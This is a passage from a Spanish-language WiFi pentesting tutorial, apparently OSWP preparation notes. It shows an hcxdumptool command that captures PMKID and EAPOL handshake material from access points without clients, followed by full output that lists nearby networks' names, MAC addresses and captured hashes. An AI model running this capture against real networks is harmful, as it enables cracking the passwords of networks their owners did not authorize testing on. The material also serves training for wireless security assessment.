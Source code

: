 - Si quieres aprender a hacerlo manual puedes ver los pasos aquí <https://s4vitar.github.io/oswp-preparacion/#>.

>En algunos casos el **Fake AP** no va hacer estable ya que `airbase-ng` no genera puntos de acceso estables y usar una antena **Alfa** funciona por eso se usan mucho las herramientas automatizadas

## Ataques a redes sin clientes 

- Para este ataque no es necesario que allá clientes conectados al **AP** lo primero que vamos a hacer es usar `hcxdumptool` este ataque es muy fácil y rápido.

```bash
❯ hcxdumptool -i wlan0mon -o hola --enable_status=1
initialization...
warning: wlan0mon is probably a monitor interface
interface is already in monitor mode

start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
INTERFACE NAME............: wlan0mon
INTERFACE HARDWARE MAC....: 9cefd5f91ec0
DRIVER....................: rt2800usb
DRIVER VERSION............: 6.1.0-1parrot1-amd64
DRIVER FIRMWARE VERSION...: 0.36
ERRORMAX..................: 100 errors
BPF code blocks...........: 0
FILTERLIST ACCESS POINT...: 0 entries
FILTERLIST CLIENT.........: 0 entries
FILTERMODE................: unused
WEAK CANDIDATE............: 12345678
ESSID list................: 0 entries
ROGUE (ACCESS POINT)......: 0022f185deae (BROADCAST HIDDEN)
ROGUE (ACCESS POINT)......: 0022f100deaf (BROADCAST OPEN)
ROGUE (ACCESS POINT)......: 0022f185deb0 (incremented on every new client)
ROGUE (CLIENT)............: f04f7cd3562f
EAPOLTIMEOUT..............: 20000 usec
REPLAYCOUNT...............: 61798
ANONCE....................: b171ddef15782b90a1026d94331ce261739adc960ab501a5849af0fa067f55fe
SNONCE....................: 34858945004471ef3d78c90ad55b3f95d2d10a7110b447a2a771302496696048

04:17:08   6 f04f7cd3562f 3c7843e84d9c Total-779D_2.4Gnormal [PMKIDROGUE:230bc6e12064d4557ad6b31aba83d8a9 KDV:2]
04:17:12  11 f04f7cd3562f 2c79d7fd07fa TOTALPLAY_FD07FA [PMKIDROGUE:4765d871b51bc7605aa34180980bd6da KDV:2]
04:17:13  11 f04f7cd3562f b0b28f370c54 TOTALPLAY_370C54 [PMKIDROGUE:9fb0eff55a03d437be75455790314386 KDV:2]
04:17:36   2 f04f7cd3562f f46fed35cea8 Totalplay-2.4G-cea8 [PMKIDROGUE:2986ec13974c1c218d689a68bd90ddd3 KDV:2]
04:17:47   1 1c4d6662ad30 3ca37ea696f0 Totalplay-76AA [EAPOL:M1M2ROGUE EAPOLTIME:9985 RC:61798 KDV:2]
04:18:12  11 58e48850d938 9c9726c87d89 INFINITUMC87D89 [EAP REQUEST ID]
04:18:13  11 f04f7cd3562f b0b28f3701e1 TOTALPLAY_3701E1 [PMKIDROGUE:dfb1e61987c34c26f82a0c203bfb2ff8 KDV:2]
04:18:21  10 ec8ac43ed11e a4d4b262c37a ON_internet_2.4G_C37A [EAPOL:M1M2 EAPOLTIME:10993 RC:1 KDV:2]
04:18:21  10 ec8ac43ed11e a4d4b262c37a ON_internet_2.4G_C37A [EAPOL:M2M3 EAPOLTIME:3479 RC:2 KDV:2]
^C
terminating...
❯ 
```
